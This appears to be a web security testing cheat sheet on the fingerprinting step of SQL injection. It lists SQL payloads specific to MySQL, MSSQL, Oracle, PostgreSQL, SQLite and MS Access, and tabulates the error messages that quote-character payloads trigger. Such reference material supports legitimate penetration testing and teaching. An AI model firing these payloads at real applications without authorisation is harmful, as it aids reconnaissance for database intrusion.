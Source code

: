 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

- ### [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#sql-payloads-1)
- ### [Error Messages](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#error-messages-1)

---

### SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- **MySQL-Specific Payloads**

If these payload can trigger ant valid responses or errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- **MSSQL Specific Payloads**
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- **Oracle Specific Payloads**
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- **POSTGRESQL Specific Payloads**

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- **SQLite Specific Payloads**

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- **MSACCESS Specific Payloads**

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

### Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    
